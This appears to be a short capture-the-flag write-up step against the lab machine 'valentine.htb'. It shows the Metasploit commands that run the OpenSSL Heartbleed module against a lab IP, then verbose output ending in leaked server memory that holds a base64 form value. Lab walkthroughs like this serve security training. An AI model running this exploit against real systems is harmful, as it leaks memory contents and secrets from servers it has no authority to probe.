 
metasploit

```
search heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 10.129.1.190
set VERBOSE true
exploit
```

results

```
[*] 10.129.1.190:443      - Leaking heartbeat response #1
[*] 10.129.1.190:443      - Sending Client Hello...
[*] 10.129.1.190:443      - SSL record #1:
[*] 10.129.1.190:443      - 	Type:    22
[*] 10.129.1.190:443      - 	Version: 0x0301
[*] 10.129.1.190:443      - 	Length:  86
[*] 10.129.1.190:443      - 	Handshake #1:
[*] 10.129.1.190:443      - 		Length: 82
[*] 10.129.1.190:443      - 		Type:   Server Hello (2)
[*] 10.129.1.190:443      - 		Server Hello Version:           0x0301
[*] 10.129.1.190:443      - 		Server Hello random data:       607f8bb8d5a8152279a1b04fe2282c3010de0176927c2f8e7214e6bc462255ba
[*] 10.129.1.190:443      - 		Server Hello Session ID length: 32
[*] 10.129.1.190:443      - 		Server Hello Session ID:        970cb8ee4de4fd40ae125b612ba8e59c4047521401fad376358a3034fa28d3eb
[*] 10.129.1.190:443      - SSL record #2:
[*] 10.129.1.190:443      - 	Type:    22
[*] 10.129.1.190:443      - 	Version: 0x0301
[*] 10.129.1.190:443      - 	Length:  885
[*] 10.129.1.190:443      - 	Handshake #1:
[*] 10.129.1.190:443      - 		Length: 881
[*] 10.129.1.190:443      - 		Type:   Certificate Data (11)
[*] 10.129.1.190:443      - 		Certificates length: 878
[*] 10.129.1.190:443      - 		Data length: 881
[*] 10.129.1.190:443      - 		Certificate #1:
[*] 10.129.1.190:443      - 			Certificate #1: Length: 875
[*] 10.129.1.190:443      - 			Certificate #1: #<OpenSSL::X509::Certificate: subject=#<OpenSSL::X509::Name CN=valentine.htb,O=valentine.htb,ST=FL,C=US>, issuer=#<OpenSSL::X509::Name CN=valentine.htb,O=valentine.htb,ST=FL,C=US>, serial=#<OpenSSL::BN:0x00005581596774d0>, not_before=2018-02-06 00:45:25 UTC, not_after=2019-02-06 00:45:25 UTC>
[*] 10.129.1.190:443      - SSL record #3:
[*] 10.129.1.190:443      - 	Type:    22
[*] 10.129.1.190:443      - 	Version: 0x0301
[*] 10.129.1.190:443      - 	Length:  331
[*] 10.129.1.190:443      - 	Handshake #1:
[*] 10.129.1.190:443      - 		Length: 327
[*] 10.129.1.190:443      - 		Type:   Server Key Exchange (12)
[*] 10.129.1.190:443      - SSL record #4:
[*] 10.129.1.190:443      - 	Type:    22
[*] 10.129.1.190:443      - 	Version: 0x0301
[*] 10.129.1.190:443      - 	Length:  4
[*] 10.129.1.190:443      - 	Handshake #1:
[*] 10.129.1.190:443      - 		Length: 0
[*] 10.129.1.190:443      - 		Type:   Server Hello Done (14)
[*] 10.129.1.190:443      - Sending Heartbeat...
[*] 10.129.1.190:443      - Heartbeat response, 65535 bytes
[+] 10.129.1.190:443      - Heartbeat response with leak, 65535 bytes
[*] 10.129.1.190:443      - Printable info leaked:
......`~Q.6...$D.J..i.^D.s..Lf..(M.YiO..f.....".!.9.8.........5.............................3.2.....E.D...../...A.......................................ux i686; rv:45.0) Gecko/20100101 Firefox/45.0..Referer: https://127.0.0.1/decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==....
```